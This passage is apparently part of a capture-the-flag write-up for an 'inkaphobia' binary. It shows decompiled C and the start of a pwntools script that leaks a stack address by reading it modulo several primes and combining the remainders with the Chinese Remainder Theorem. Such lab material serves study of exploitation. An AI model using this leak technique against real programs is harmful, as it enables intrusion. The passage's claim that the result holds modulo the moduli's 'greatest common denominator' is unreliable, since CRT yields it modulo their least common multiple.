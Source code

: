 ```C
        __stack_chk_fail();
      }
      return;
    }
    printf("Enter max value: ");
    fgets(local_218,0x10,stdin);
    lVar1 = atol(local_218);
    if ((0x7f < lVar1) || (lVar1 < 1)) break;
    printf("Random number: %ld\n",param_1 % lVar1,param_1 % lVar1);
    local_224 = local_224 + 1;
  }
  puts("Go away.");
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

OK, it seems that the function is letting you to view the parameter passed to it mod an user-controlled number, with certain restrictions. First, the number can only be viewed under a mod a total of 6 times. Secondly, the number can only be viewed mod a number between 1 and 128.

So... seems that we can use this functionality to leak a stack address, namely, the address that was passed to `dorng`. If we take the address mod 6 numbers, we can use CRT to solve for the address mod the greatest common denominator of the numbers.

Since we want to maximize the modulo of our final result, we would like this GCD to be  as big as possible. One way to do this (although I'm not sure if this is the most optimal way) is to just take the number mod the 6 largest primes less than 128. We write some code to do this:

```python
from pwn import *
from sympy.ntheory.modular import crt

context.arch = "amd64"
elf = ELF("./inkaphobia")
libc = ELF("./libc.so.6")
rop = ROP(elf)
conn = elf.process()

primes = [101, 103, 107, 109, 113, 127]

def get_remainder(num):
  conn.recvuntil(":")
  conn.sendline(str(num))
  conn.recvuntil(":")
  rem = int(conn.recvline().strip())
  log.info(f"addr ≡ {rem} (mod {num})")
  return rem

conn.recvline()
remainders = []
for prime in primes:
  remainders.append(get_remainder(prime))

res = crt(primes, remainders)
```

